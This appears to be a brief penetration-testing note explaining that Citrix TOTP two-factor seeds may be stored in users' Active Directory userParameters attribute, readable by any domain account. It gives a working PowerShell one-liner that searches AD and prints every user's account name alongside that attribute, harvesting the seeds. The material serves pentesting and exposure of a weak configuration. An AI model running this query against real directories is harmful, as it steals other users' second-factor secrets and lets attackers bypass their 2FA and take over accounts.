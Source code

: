 # Citrix TOTP Seeds in AD Objects
Sometimes access to the Citrix Web Interface can be secured with 2FA. If it is TOTP, then Citrix will recommend that the seeds are stored in the AD objects of the respective users.
It is possible to read the seeds if you have any AD account, privileges don't seem to matter.
```powershell
([adsisearcher]"Userparameters+*#*&*").FindAll() | %{write-output "$($_.Properties['samaccountname'] + $_.Properties['userparameters'])"} | sort-object
```

tags: #citrix #windows #pentest